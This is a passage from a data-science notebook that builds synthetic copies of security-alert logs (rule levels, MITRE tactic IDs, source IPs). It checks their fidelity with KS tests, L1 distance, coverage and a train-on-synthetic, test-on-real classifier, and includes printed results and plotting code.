print("\n📋 REAL DATA (first 3 rows):")
print("-" * 70)
display_cols = [c for c in df.columns if df[c].dtype in ['object', 'int64', 'float64']][:8]
print(df[display_cols].head(3).to_string())

print("\n📋 SYNTHETIC DATA (first 3 rows):")
print("-" * 70)
print(synthetic_samples[display_cols].head(3).to_string())

# Show text column comparison
_avail_text = [c for c in text_columns if c in df.columns and c in synthetic_samples.columns]
if _avail_text:
    print(f"\n📝 TEXT COLUMN COMPARISON: {_avail_text[0]}")
    print("-" * 70)
    real_val = df[_avail_text[0]].dropna().iloc[0] if df[_avail_text[0]].notna().any() else 'N/A'
    synth_val = synthetic_samples[_avail_text[0]].dropna().iloc[0] if synthetic_samples[_avail_text[0]].notna().any() else 'N/A'
    print(f"   REAL: {str(real_val)[:200]}...")
    print(f"   SYNTH: {str(synth_val)[:200]}...")

# Show categorical distribution comparison
_avail_cat = [c for c in categorical_columns if c in df.columns and c in synthetic_samples.columns]
print("\n📊 CATEGORICAL DISTRIBUTION COMPARISON:")
print("-" * 70)
for col in _avail_cat[:3]:
    print(f"\n   {col}:")
    real_dist = df[col].value_counts(normalize=True).head(5)
    synth_dist = synthetic_samples[col].value_counts(normalize=True).head(5)
    print(f"      Real top 5:  {dict(real_dist.round(3))}")
    print(f"      Synth top 5: {dict(synth_dist.round(3))}")

print("\n" + "=" * 70)

👀 SYNTHETIC DATA PREVIEW

📋 REAL DATA (first 3 rows):
----------------------------------------------------------------------
  malicious _source.rule.level                         _source.rule.groups _source.decoder.name                       _source.rule.mitre.tactic _source.rule.mitre.id _source.data.protocol _source.data.srcip
0         1                  3  ["syslog","sshd","authentication_success"]                 sshd  ["TA0005","TA0003","TA0004","TA0001","TA0008"]     ["T1078","T1021"]               MISSING      192.168.217.1
1         1                  3  ["syslog","sshd","authentication_success"]                 sshd  ["TA0005","TA0003","TA0004","TA0001","TA0008"]     ["T1078","T1021"]               MISSING      192.168.217.1
2         1                  3  ["syslog","sshd","authentication_success"]                 sshd  ["TA0005","TA0003","TA0004","TA0001","TA0008"]     ["T1078","T1021"]               MISSING      192.168.217.1

📋 SYNTHETIC DATA (first 3 rows):
-------------

## 📊 Section 6: Quality Validation

Comprehensive quality assessment comparing synthetic vs real data using multiple metrics:

### 🧪 Validation Methodology

```
┌────────────────────────────────────────────────────────────────────┐
│                    Quality Validation Suite                         │
├────────────────────────────────────────────────────────────────────┤
│                                                                     │
│  1. STATISTICAL TESTS                                              │
│     ├─▶ KS Test (Kolmogorov-Smirnov) for numeric columns           │
│     │   • Measures maximum distance between CDFs                    │
│     │   • Threshold: KS < 0.3 = acceptable                         │
│     │                                                               │
│     └─▶ L1 Distance for categorical columns                        │
│         • Sum of absolute differences in distributions              │
│         • Measures category frequency alignment                     │
│                                                                     │
│  2. COVERAGE ANALYSIS                                              │
│     └─▶ % of real categories present in synthetic data              │
│         • Target: ≥80% coverage for key features                   │
│                                                                     │
│  3. ML UTILITY TEST (TSTR)                                         │
│     ├─▶ Train on Synthetic, Test on Real                           │
│     ├─▶ Compare with Train on Real, Test on Real (baseline)        │
│     └─▶ Utility Ratio = TSTR_Accuracy / TRTR_Accuracy              │
│         • Target: ≥80% utility ratio                               │
│                                                                     │
└────────────────────────────────────────────────────────────────────┘
```

---

### 📈 Quality Metrics Interpretation

| Metric | Excellent | Good | Moderate | Poor |
|--------|-----------|------|----------|------|
| **KS Statistic** | < 0.1 | < 0.2 | < 0.3 | ≥ 0.3 |
| **L1 Distance** | < 0.1 | < 0.2 | < 0.3 | ≥ 0.3 |
| **Coverage** | ≥ 90% | ≥ 80% | ≥ 70% | < 70% |
| **Utility Ratio** | ≥ 95% | ≥ 85% | ≥ 75% | < 75% |

---

### 📖 Detailed Metric Explanations

#### 1️⃣ **KS Statistic (Kolmogorov-Smirnov Test)** — *For Numeric Columns*

The **KS test** measures the maximum vertical distance between the cumulative distribution functions (CDFs) of two samples.

```
    CDF
    1.0 ┤                    ══════════ Real
        │                 ═══          -------- Synthetic
        │              ═══
        │           ═══  ↑ KS = max distance
        │        ═══─────┤
        │     ═══   ─────┘
        │  ═══──────
    0.0 ┼══─────────────────────────────► Value
```

**Formula:** $KS = \max|F_{real}(x) - F_{synthetic}(x)|$

**Interpretation:**
- **KS = 0**: Identical distributions (perfect)
- **KS < 0.1**: Distributions nearly identical
- **KS < 0.3**: Acceptable similarity for synthetic data
- **KS ≥ 0.3**: Significant distributional difference

---

#### 2️⃣ **L1 Distance (Total Variation Distance)** — *For Categorical Columns*

The **L1 distance** measures the sum of absolute differences between category proportions.

```
    Proportion
    0.4 ┤   ▓▓▓ Real
        │   ▓▓▓ ░░░ Synthetic
        │   ▓▓▓ ░░░
    0.2 ┤   ▓▓▓ ░░░   ▓▓▓
        │   ▓▓▓ ░░░   ▓▓▓ ░░░   ▓▓▓ ░░░
        │   ▓▓▓ ░░░   ▓▓▓ ░░░   ▓▓▓ ░░░
    0.0 ┼───Cat A─────Cat B─────Cat C───► Category
            └──┬──┘       
            |diff| = L1 contribution
```

**Formula:** $L1 = \sum_{c}|P_{real}(c) - P_{synthetic}(c)|$

**Interpretation:**
- **L1 = 0**: Identical category distributions (perfect)
- **L1 < 0.1**: Category frequencies nearly match
- **L1 < 0.3**: Acceptable for synthetic data generation
- **L1 ≥ 0.3**: Significant category imbalance

---

#### 3️⃣ **Coverage** — *Category Preservation Rate*

**Coverage** measures what percentage of unique categories from the real data appear in the synthetic data.

```
    Real Categories:    {A, B, C, D, E}  (5 total)
    Synthetic Categories: {A, B, C, E}    (4 generated)
    
    Coverage = 4/5 = 80%
```

**Formula:** $Coverage = \frac{|Categories_{real} \cap Categories_{synthetic}|}{|Categories_{real}|} \times 100\%$

**Interpretation:**
- **100%**: All categories preserved (ideal)
- **≥90%**: Excellent - rare categories may be missing
- **≥80%**: Good - acceptable for most use cases
- **<70%**: Poor - significant category dropout

**Why it matters:** Low coverage means the synthetic data is missing important categorical values, which could bias downstream ML models.

---

#### 4️⃣ **Utility Ratio (TSTR)** — *ML Usefulness Metric*

The **TSTR (Train Synthetic, Test Real)** metric evaluates how useful synthetic data is for training ML models.

```
    ┌─────────────────────────────────────────────────────┐
    │  TSTR Methodology:                                  │
    │                                                     │
    │  ┌──────────────┐      ┌──────────────┐           │
    │  │  Synthetic   │ ───▶ │   ML Model   │           │
    │  │  Data        │      │   Training   │           │
    │  └──────────────┘      └──────────────┘           │
    │                              │                     │
    │                              ▼                     │
    │  ┌──────────────┐      ┌──────────────┐           │
    │  │  Real Test   │ ───▶ │   Evaluate   │ → TSTR   │
    │  │  Data        │      │   Accuracy   │   Score   │
    │  └──────────────┘      └──────────────┘           │
    │                                                     │
    │  Baseline (TRTR): Train on Real, Test on Real     │
    │                                                     │
    │  Utility Ratio = TSTR_Accuracy / TRTR_Accuracy    │
    └─────────────────────────────────────────────────────┘
```

**Formula:** $Utility\ Ratio = \frac{Accuracy_{TSTR}}{Accuracy_{TRTR}} \times 100\%$

**Interpretation:**
- **≥95%**: Excellent - synthetic data nearly as good as real
- **≥85%**: Good - suitable for data augmentation
- **≥75%**: Moderate - useful with some performance loss
- **<75%**: Poor - synthetic data may hurt model performance

**Why it matters:** This is the ultimate test - if ML models trained on synthetic data perform well on real data, the synthetic data has captured the meaningful patterns.

In [20]:
# ============================================================================
# 📊 QUALITY VALIDATION — PER SOURCE TYPE
# ============================================================================

print("=" * 70)
print("📊 QUALITY VALIDATION (PER SOURCE TYPE)")
print("=" * 70)

quality_results = {'numeric': [], 'categorical': [], 'summary': {}}
quality_per_source = {}

for stype in trained_models:
    real_df = strata[stype]['df']
    synth_df = synthetic_per_source[stype]
    common_cols = [c for c in real_df.columns if c in synth_df.columns and c != '_source_type']

    print(f"\n{'─' * 70}")
    print(f"🔹 {stype.upper()} ({len(real_df):,} real vs {len(synth_df):,} synthetic)")
    print(f"{'─' * 70}")

    source_results = {'numeric': [], 'categorical': []}

    for col in common_cols:
        if real_df[col].dtype in ['int64', 'float64'] and synth_df[col].dtype in ['int64', 'float64']:
            r_vals = real_df[col].dropna()
            s_vals = synth_df[col].dropna()
            if len(r_vals) > 0 and len(s_vals) > 0:
                ks_stat, p_val = ks_2samp(r_vals, s_vals)
                q = '🟢 EXCELLENT' if ks_stat < 0.1 else '🟡 GOOD' if ks_stat < 0.2 else '🟠 MODERATE' if ks_stat < 0.3 else '🔴 POOR'
                entry = {'column': col, 'ks_stat': ks_stat, 'p_value': p_val, 'quality': q}
                source_results['numeric'].append(entry)
                quality_results['numeric'].append(entry)
                print(f"   {q.split()[0]} {col[:45]:<45} KS={ks_stat:.4f}")
        else:
            r_dist = real_df[col].astype(str).value_counts(normalize=True)
            s_dist = synth_df[col].astype(str).value_counts(normalize=True)
            all_cats = set(r_dist.index) | set(s_dist.index)
            r_a = pd.Series({c: r_dist.get(c, 0) for c in all_cats})
            s_a = pd.Series({c: s_dist.get(c, 0) for c in all_cats})
            l1 = np.abs(r_a - s_a).sum()
            coverage = len(set(r_dist.index) & set(s_dist.index)) / max(len(r_dist), 1) * 100
            q = '🟢 EXCELLENT' if l1 < 0.1 else '🟡 GOOD' if l1 < 0.2 else '🟠 MODERATE' if l1 < 0.3 else '🔴 POOR'
            entry = {'column': col, 'l1_dist': l1, 'coverage': coverage, 'quality': q}
            source_results['categorical'].append(entry)
            quality_results['categorical'].append(entry)
            print(f"   {q.split()[0]} {col[:45]:<45} L1={l1:.4f}  cov={coverage:.0f}%")

    quality_per_source[stype] = source_results

# Summary
n_good_num = sum(1 for r in quality_results['numeric'] if '🟢' in r['quality'] or '🟡' in r['quality'])
n_good_cat = sum(1 for r in quality_results['categorical'] if '🟢' in r['quality'] or '🟡' in r['quality'])
n_total = len(quality_results['numeric']) + len(quality_results['categorical'])
quality_results['summary'] = {
    'numeric_total': len(quality_results['numeric']),
    'numeric_good': n_good_num,
    'categorical_total': len(quality_results['categorical']),
    'categorical_good': n_good_cat,
    'avg_ks': np.mean([r['ks_stat'] for r in quality_results['numeric']]) if quality_results['numeric'] else 0,
    'avg_l1': np.mean([r['l1_dist'] for r in quality_results['categorical']]) if quality_results['categorical'] else 0,
    'avg_coverage': np.mean([r['coverage'] for r in quality_results['categorical']]) if quality_results['categorical'] else 0,
}

print(f"\n{'=' * 70}")
print("📊 OVERALL QUALITY SUMMARY")
print("=" * 70)
acceptable_pct = (n_good_num + n_good_cat) / n_total * 100 if n_total > 0 else 0
print(f"   Acceptable: {n_good_num + n_good_cat}/{n_total} ({acceptable_pct:.0f}%)")
for stype, res in quality_per_source.items():
    all_items = res['numeric'] + res['categorical']
    good = sum(1 for r in all_items if '🟢' in r['quality'] or '🟡' in r['quality'])
    print(f"   {stype:>10}: {good}/{len(all_items)} acceptable")
print("=" * 70)


📊 QUALITY VALIDATION (PER SOURCE TYPE)

──────────────────────────────────────────────────────────────────────
🔹 NETWORK (18,920 real vs 37,840 synthetic)
──────────────────────────────────────────────────────────────────────
   🟢 malicious                                     L1=0.0000  cov=100%
   🟢 _source.rule.level                            L1=0.0612  cov=100%
   🟢 _source.rule.groups                           L1=0.0307  cov=78%
   🟢 _source.decoder.name                          L1=0.0026  cov=67%
   🟢 _source.rule.mitre.tactic                     L1=0.0465  cov=85%
   🟢 _source.rule.mitre.id                         L1=0.0800  cov=79%
   🟢 _source.data.protocol                         L1=0.0060  cov=17%
   🟢 _source.data.srcip                            L1=0.0010  cov=100%
   🔴 _source.data.url                              L1=1.7597  cov=3%

──────────────────────────────────────────────────────────────────────
🔹 SYSCHECK (2,862 real vs 5,724 synthetic)
───────────────────────────

### 📊 Quality Summary Report

The cell below provides a consolidated quality summary:
- Count of features at each quality level (Excellent/Good/Moderate/Poor)
- Average KS statistic and L1 distance across all features
- Overall acceptable percentage and final verdict

In [21]:
# ============================================================================
# 📊 QUALITY SUMMARY REPORT
# ============================================================================

print("=" * 70)
print("📊 QUALITY SUMMARY REPORT")
print("=" * 70)

summary = quality_results['summary']

# Count quality levels
def count_quality(results_list, level):
    return sum(1 for r in results_list if level in r['quality'])

numeric_excellent = count_quality(quality_results['numeric'], '🟢')
numeric_good = count_quality(quality_results['numeric'], '🟡')
numeric_moderate = count_quality(quality_results['numeric'], '🟠')
numeric_poor = count_quality(quality_results['numeric'], '🔴')

cat_excellent = count_quality(quality_results['categorical'], '🟢')
cat_good = count_quality(quality_results['categorical'], '🟡')
cat_moderate = count_quality(quality_results['categorical'], '🟠')
cat_poor = count_quality(quality_results['categorical'], '🔴')

print(f"""
📈 NUMERIC FEATURES ({summary['numeric_total']} columns):
   🟢 Excellent (KS < 0.1): {numeric_excellent}
   🟡 Good (KS < 0.2):      {numeric_good}
   🟠 Moderate (KS < 0.3):  {numeric_moderate}
   🔴 Poor (KS >= 0.3):     {numeric_poor}
   
   Average KS Statistic: {summary['avg_ks']:.4f}

🏷️ CATEGORICAL FEATURES ({summary['categorical_total']} columns):
   🟢 Excellent (L1 < 0.1): {cat_excellent}
   🟡 Good (L1 < 0.2):      {cat_good}
   🟠 Moderate (L1 < 0.3):  {cat_moderate}
   🔴 Poor (L1 >= 0.3):     {cat_poor}
   
   Average L1 Distance: {summary['avg_l1']:.4f}
   Average Coverage: {summary['avg_coverage']:.1f}%
""")

# Overall score
total_features = summary['numeric_total'] + summary['categorical_total']
total_good = numeric_excellent + numeric_good + cat_excellent + cat_good
acceptable_pct = (total_good / total_features * 100) if total_features > 0 else 0

print("=" * 70)
print(f"   ✅ ACCEPTABLE QUALITY: {total_good}/{total_features} ({acceptable_pct:.1f}%)")
print("=" * 70)

# Determine overall verdict
if acceptable_pct >= 80:
    verdict = "🟢 EXCELLENT - Production Ready"
elif acceptable_pct >= 60:
    verdict = "🟡 GOOD - Minor improvements needed"
elif acceptable_pct >= 40:
    verdict = "🟠 MODERATE - Consider parameter tuning"
else:
    verdict = "🔴 POOR - Needs improvement"

print(f"\n   📋 OVERALL VERDICT: {verdict}")
print("=" * 70)

📊 QUALITY SUMMARY REPORT

📈 NUMERIC FEATURES (0 columns):
   🟢 Excellent (KS < 0.1): 0
   🟡 Good (KS < 0.2):      0
   🟠 Moderate (KS < 0.3):  0
   🔴 Poor (KS >= 0.3):     0
   
   Average KS Statistic: 0.0000

🏷️ CATEGORICAL FEATURES (46 columns):
   🟢 Excellent (L1 < 0.1): 34
   🟡 Good (L1 < 0.2):      8
   🟠 Moderate (L1 < 0.3):  0
   🔴 Poor (L1 >= 0.3):     4
   
   Average L1 Distance: 0.1513
   Average Coverage: 87.4%

   ✅ ACCEPTABLE QUALITY: 42/46 (91.3%)

   📋 OVERALL VERDICT: 🟢 EXCELLENT - Production Ready


### 🧪 ML Utility Test (TSTR - Train Synthetic, Test Real)

This test measures how useful the synthetic data is for machine learning tasks:

**Methodology:**
1. **TSTR**: Train a Random Forest classifier on synthetic data, evaluate on real test set
2. **TRTR**: Train on real data (baseline), evaluate on real test set
3. **Utility Ratio**: TSTR_accuracy / TRTR_accuracy

**Interpretation:**
- Utility Ratio ≥ 80%: Synthetic data is highly useful for ML
- Utility Ratio 60-80%: Synthetic data provides moderate utility
- Utility Ratio < 60%: Synthetic data may need improvement

In [22]:
# ============================================================================
# 🧪 ML UTILITY TEST (TSTR - Train Synthetic, Test Real)
# ============================================================================

print("=" * 70)
print("🧪 ML UTILITY TEST (TSTR)")
print("=" * 70)

def ml_utility_test(real_df, synth_df, target_col='malicious', cat_cols=None):
    """
    Train on Synthetic, Test on Real (TSTR) to evaluate ML utility
    """
    if target_col not in real_df.columns:
        print(f"⚠️ Target column '{target_col}' not found. Skipping ML utility test.")
        return None
    
    # Prepare features (numeric + encoded categorical)
    feature_cols = []
    
    # Add numeric columns
    for col in real_df.select_dtypes(include=[np.number]).columns:
        if col != target_col:
            feature_cols.append(col)
    
    # Encode categorical columns
    encoders = {}
    for col in (cat_cols or []):
        if col in real_df.columns and col != target_col:
            le = LabelEncoder()
            # Fit on combined data to handle unseen categories
            combined = pd.concat([real_df[col].astype(str), synth_df[col].astype(str)])
            le.fit(combined)
            real_df[f'{col}_encoded'] = le.transform(real_df[col].astype(str))
            synth_df[f'{col}_encoded'] = le.transform(synth_df[col].astype(str))
            feature_cols.append(f'{col}_encoded')
            encoders[col] = le
    
    if not feature_cols:
        print("⚠️ No features available for ML utility test.")
        return None
    
    # Prepare data
    X_synth = synth_df[feature_cols].fillna(0)
    y_synth = synth_df[target_col] if target_col in synth_df.columns else np.ones(len(synth_df))
    
    X_real = real_df[feature_cols].fillna(0)
    y_real = real_df[target_col]
    
    # Split real data for testing
    X_real_train, X_real_test, y_real_train, y_real_test = train_test_split(
        X_real, y_real, test_size=0.3, random_state=CONFIG['random_seed']
    )
    
    # TSTR: Train on Synthetic, Test on Real
    clf_tstr = RandomForestClassifier(n_estimators=100, random_state=CONFIG['random_seed'])
    clf_tstr.fit(X_synth, y_synth)
    y_pred_tstr = clf_tstr.predict(X_real_test)
    acc_tstr = accuracy_score(y_real_test, y_pred_tstr)
    
    # TRTR: Train on Real, Test on Real (baseline)
    clf_trtr = RandomForestClassifier(n_estimators=100, random_state=CONFIG['random_seed'])
    clf_trtr.fit(X_real_train, y_real_train)
    y_pred_trtr = clf_trtr.predict(X_real_test)
    acc_trtr = accuracy_score(y_real_test, y_pred_trtr)
    
    return {
        'tstr_accuracy': acc_tstr,
        'trtr_accuracy': acc_trtr,
        'utility_ratio': acc_tstr / acc_trtr if acc_trtr > 0 else 0,
        'features_used': len(feature_cols)
    }

# Run ML utility test
# Select a few categorical columns for encoding
test_cat_cols = [c for c in categorical_columns if c in df.columns and df[c].nunique() <= 50][:5]

ml_results = ml_utility_test(
    df.copy(), 
    synthetic_samples.copy(), 
    target_col='malicious' if 'malicious' in df.columns else None,
    cat_cols=test_cat_cols
)

if ml_results:
    print(f"""
📊 ML UTILITY RESULTS:
   
   • TRTR (Train Real, Test Real):      {ml_results['trtr_accuracy']:.1%} (baseline)
   • TSTR (Train Synthetic, Test Real): {ml_results['tstr_accuracy']:.1%}
   
   • Utility Ratio: {ml_results['utility_ratio']:.1%}
   • Features used: {ml_results['features_used']}
   
   {"✅ GOOD" if ml_results['utility_ratio'] >= 0.8 else "⚠️ NEEDS IMPROVEMENT"}: 
   Synthetic data achieves {ml_results['utility_ratio']:.0%} of real data performance
""")
else:
    print("   ⚠️ ML utility test could not be performed")

print("=" * 70)

🧪 ML UTILITY TEST (TSTR)

📊 ML UTILITY RESULTS:
   
   • TRTR (Train Real, Test Real):      100.0% (baseline)
   • TSTR (Train Synthetic, Test Real): 100.0%
   
   • Utility Ratio: 100.0%
   • Features used: 4
   
   ✅ GOOD: 
   Synthetic data achieves 100% of real data performance



## 📈 Section 7: Visualizations

Comprehensive visual comparison between real and synthetic data:

### Visualization Suite:

| Visualization | Purpose | Key Insights |
|---------------|---------|--------------|
| **Distribution Plots** | Compare numeric feature distributions | Overlapping histograms with KS statistic |
| **Bar Charts** | Compare categorical proportions | Side-by-side frequency comparison |
| **t-SNE Embedding** | High-dimensional data visualization | Cluster overlap indicates good quality |
| **Correlation Matrix** | Column relationship comparison | Synthetic should preserve correlations |
| **Quality Scores** | Interactive quality metrics | Identify features needing improvement |
| **Coverage Analysis** | Category presence check | Ensure no category dropout |

📈 GENERATING DISTRIBUTION VISUALIZATIONS




✅ Saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/numeric_distributions.png




✅ Saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/categorical_distributions.png


In [23]:
# ============================================================================
# 📈 DISTRIBUTION VISUALIZATIONS
# ============================================================================

print("=" * 70)
print("📈 GENERATING DISTRIBUTION VISUALIZATIONS")
print("=" * 70)

# Filter to columns present in both df and synthetic_samples
_num_cols = [c for c in numeric_columns if c in df.columns and c in synthetic_samples.columns]
_cat_cols = [c for c in categorical_columns if c in df.columns and c in synthetic_samples.columns]

# 1. Numeric Feature Distributions
if _num_cols:
    n_numeric = min(len(_num_cols), 6)
    fig, axes = plt.subplots(2, 3, figsize=(15, 10))
    axes = axes.flatten()
    
    for idx, col in enumerate(_num_cols[:n_numeric]):
        ax = axes[idx]
        
        # Real data
        real_vals = df[col].dropna()
        synth_vals = synthetic_samples[col].dropna()
        
        ax.hist(real_vals, bins=30, alpha=0.5, label='Real', color='blue', density=True)
        ax.hist(synth_vals, bins=30, alpha=0.5, label='Synthetic', color='orange', density=True)
        
        # Add KS statistic
        ks_stat, _ = ks_2samp(real_vals, synth_vals)
        ax.set_title(f'{col[:30]}\nKS={ks_stat:.3f}', fontsize=10)
        ax.legend()
        ax.set_xlabel('Value')
        ax.set_ylabel('Density')
    
    # Hide unused subplots
    for idx in range(n_numeric, 6):
        axes[idx].set_visible(False)
    
    plt.suptitle('📊 Numeric Feature Distributions: Real vs Synthetic', fontsize=14, fontweight='bold')
    plt.tight_layout()
    plt.savefig(f"{CONFIG['output_dir']}/numeric_distributions.png", dpi=150, bbox_inches='tight')
    plt.show()
    print(f"✅ Saved: {CONFIG['output_dir']}/numeric_distributions.png")

# 2. Categorical Feature Distributions
if _cat_cols:
    n_cat = min(len(_cat_cols), 6)
    fig, axes = plt.subplots(2, 3, figsize=(15, 10))
    axes = axes.flatten()
    
    for idx, col in enumerate(_cat_cols[:n_cat]):
        ax = axes[idx]
        
        # Get top categories
        real_counts = df[col].value_counts().head(10)
        synth_counts = synthetic_samples[col].value_counts()
        
        # Align
        categories = real_counts.index.tolist()
        real_vals = [real_counts.get(c, 0) / len(df) for c in categories]
        synth_vals = [synth_counts.get(c, 0) / len(synthetic_samples) for c in categories]
        
        x = np.arange(len(categories))
        width = 0.35
        
        ax.bar(x - width/2, real_vals, width, label='Real', color='blue', alpha=0.7)
        ax.bar(x + width/2, synth_vals, width, label='Synthetic', color='orange', alpha=0.7)
        
        ax.set_xlabel('Category')
        ax.set_ylabel('Proportion')
        ax.set_title(f'{col[:25]}', fontsize=10)
        ax.set_xticks(x)
        ax.set_xticklabels([str(c)[:10] for c in categories], rotation=45, ha='right', fontsize=8)
        ax.legend(fontsize=8)
    
